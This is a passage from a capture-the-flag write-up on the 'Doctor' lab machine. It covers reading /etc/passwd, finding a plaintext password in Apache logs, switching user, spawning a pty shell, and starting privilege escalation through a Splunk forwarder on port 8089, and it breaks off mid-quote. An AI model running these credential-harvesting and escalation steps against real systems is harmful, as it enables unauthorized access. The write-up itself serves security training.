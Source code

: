 This is a dead end. Can't identify the hash. Found this in the `/var/logs` as seen below:
```Console
web@doctor:~/blog/flaskblog$ cat /etc/passwd | grep 'bash'
cat /etc/passwd | grep 'bash'
root:x:0:0:root:/root:/bin/bash
web:x:1001:1001:,,,:/home/web:/bin/bash
shaun:x:1002:1002:shaun,,,:/home/shaun:/bin/bash
splunk:x:1003:1003:Splunk Server:/opt/splunkforwarder:/bin/bash
```
We have a user: `shaun`

Used `grep -R -e 'password'` in `/var/logs` and found this line:
```Console
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```

We have credentials!
User: shaun
Password: Guitar123

`su shaun` and entered password and reached a dummy shell. Used `python -c 'import pty;pty.spawn("/bin/bash")'` to get interactive shell.
Right at that time, the shell died because there appears to be a script that removes the new users every 20 minutes. Logged back in and 
switched to the shaun user which avoids that issue. Spawned an interactive shell with the method above.

I also obtained `user.txt`:
User flag: 12a[oooooo~[takeAbreath]~oooooo]
### Privesc
* Shaun can't use `sudo`.
* Checked netstat
```Console
shaun@doctor:~$ netstat -ant
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
<----Snip---->
tcp        0      0 0.0.0.0:8089            0.0.0.0:*               LISTEN
```

There's a listener on port 8089. Going back to the results from `nmap`, it found the following:
```Console
8089/tcp ssl/http Splunkd httpd
  http-server-header: Splunkd
  http-title: splunkd
  ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
  Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US/localityName=San Francisco/emailAddress=support@splunk.com
```

Found [this blog](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/) about the vulnerability of the
Splunk service on port 8089:
> Splunk is a data aggregation and search tool often used as a Security Information and Event Monitoring (SIEM) system. Splunk Enterprise
> Server is a web application which runs on a server, with agents, called Universal Forwarders, which are installed on every system in the
> network. Splunk provides agent binaries for Windows, Linux, Mac, and Unix. Many organizations use Syslog to send data to Splunk instead of
> installing an agent on Linux/Unix hosts but agent installation is becomming increasingly popular.
> 
> Universal Forwarder is accessible on each host at https://host:8089. Accessing any of the protected API calls, such as /service/ pops up a
> Basic authentication box. The username is always admin, and the password default used to be changeme until 2016when Splunk required any new